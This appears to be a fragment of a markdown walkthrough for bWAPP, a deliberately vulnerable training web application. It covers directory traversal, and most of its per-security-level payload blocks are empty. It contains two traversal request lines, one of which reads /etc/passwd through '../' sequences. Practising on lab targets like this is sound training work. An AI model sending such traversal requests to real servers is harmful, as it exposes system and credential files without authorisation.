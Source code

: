 Payload: 
```
``` 
### Security level: medium

Payload: 
```
``` 
### Security level: high

Payload: 
```
``` 

## 💀  Directory Traversal - Directories 💀

directory_traversal_2.php

```
/bWAPP/directory_traversal_2.php?directory=../../../../home/
```


### Security level: low

Payload: 
```
``` 
### Security level: medium

Payload: 
```
``` 
### Security level: high

Payload: 
```
``` 

## 💀  Directory Traversal - Files 💀

directory_traversal_1.php

```
/bWAPP/directory_traversal_1.php?page=../../../../../etc/passwd
```


### Security level: low

Payload: 
```
``` 
### Security level: medium
